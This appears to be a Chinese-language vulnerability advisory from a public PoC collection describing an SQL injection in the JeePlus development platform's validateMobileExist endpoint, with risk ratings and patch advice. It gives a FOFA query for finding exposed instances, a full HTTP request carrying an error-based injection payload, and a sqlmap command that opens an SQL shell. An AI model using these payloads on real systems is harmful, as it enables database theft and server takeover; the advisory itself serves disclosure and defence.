


---

source: "SourByte05/Vulnerability-Wiki-PoC"
---

# 关于Jeeplus快速开发平台 validateMobileExist SQL注入漏洞预警

# 漏洞描述

JeePlus快速开发平台  validateMobileExist 接口处存在SQL注入漏洞，攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

# 影响范围

JeePlus快速开发平台

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 中 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：app="JeePlus"

POC/EXP：

GET /a/sys/user/validateMobileExist?&mobile=1%27+and+1%3D%28updatexml%281%2Cconcat%280x7e%2C%28select+version%28%29%29%2C0x7e%29%2C1%29%29+and+%271%27%3D%271 HTTP/1.1
Host: 127.0.0.1:8080
Cache-Control: max-age=0
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: jeeplus.session.id=a631de098e3a4e4184631a4dcac9f396
Connection: close

sqlmap验证

sqlmap.py -u "http://127.0.0.1:8080/a/sys/user/validateMobileExist?&mobile=1*" --sql-shell

# 修复方案

**官方修复：**

关闭互联网暴露面或接口设置访问权限

升级JeePlus至最新版本

官网下载最新安全补丁：http://www.jeeplus.org/

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
